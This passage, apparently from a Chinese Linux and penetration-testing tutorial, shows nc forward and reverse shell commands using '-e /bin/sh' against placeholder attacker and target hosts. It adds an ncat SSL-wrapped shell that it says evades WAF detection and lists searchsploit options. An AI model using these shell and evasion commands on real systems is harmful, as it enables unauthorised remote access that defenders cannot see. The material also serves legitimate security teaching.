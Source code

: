 ![我的图片](./linux使用教程.assets/图片13.png)

​                            **(发现输入ls查询目录，目录传输music-ubuntu已经成功)**

##### NC反弹shell

简述：获取shell分为两种，一种是正向shell，一种是方向shell。如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想要获取客户端的shell，那么称为反向shell。

**正向shell**：

- 攻击机：`nc  Targert_IP  Targert_Port `
- 靶机：`nc  -lvp  Targert_Port  -e  /bin/sh  `

**反向shell：**

- 攻击机：`nc -lvp  Target_Port`
- 靶机：` nc  Targert_IP Targert_Port -e /bin/sh`

#### 使用ssl给nc连接加密

- nc 发送的数据包是明文传输的，所以数据会被waf之类的检测，套上一层ssl就检测不到了

- 先生成 ssl-key :

    - ` openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem `
- 服务器端: ncat -c bash --allow     192.168.31.221 -vnl 333 --ssl --ssl-cert cert.pem --ssl-key key.pem
- 客户端: ncat -nv 127.0.0.1 333     --ssl --ssl-cert cert.pem --ssl-key key.pem 

## linux下用户/组/权限

## searchsploit

- searchsploit -u *#更新漏洞数据库*

- searchsploit -h *#查看使用帮助*

- | -c, --case [Term]         | 区分大小写(默认不区分大小写)                                 |
    | ------------------------- | ------------------------------------------------------------ |
    | -e, --exact [Term]        | 对exploit标题进行EXACT匹配 (默认为       AND) [Implies "-t"]. |
    | -j, --json [Term]         | 以JSON格式显示结果                                           |
    | **-m, --mirror [EDB-ID]** | **把一个****对应****id****的****exp拷贝到当前工作目录,参数后加目标id** |
    | -o, --overflow [Term]     | Exploit标题被允许溢出其列                                    |
    | -p, --path [EDB-ID]       | 显示漏洞利用的完整路径（如果可能，还将路径复制到剪贴板），后面跟漏洞ID号 |
    | **-t, --title [Term]**    | **仅仅搜索漏洞标题（默认是标题和文件的路径）**               |
    | -u, --update              | 检查并安装任何exploitdb软件包更新（deb或git）                |
    | -w, --www [Term]          | 显示Exploit-DB.com的URL而不是本地路径（在线搜索）            |
    | -x, --examine [EDB-ID]    | 使用$ PAGER检查（副本）Exp                                   |
    | --colour                  | 搜索结果不高亮显示关键词                                     |
    | --id                      | 显示EDB-ID                                                   |
    | --nmap [file.xml]         | 使用服务版本检查Nmap       XML输出中的所有结果（例如：nmap -sV -oX file.xml） |
    | 使用“-v”                  | （详细）来尝试更多的组合                                     |
    | --exclude="term"          | 从结果中删除值。通过使用“\|”分隔多个值                 例如--exclude=“term1 \| term2 \| term3”。 |
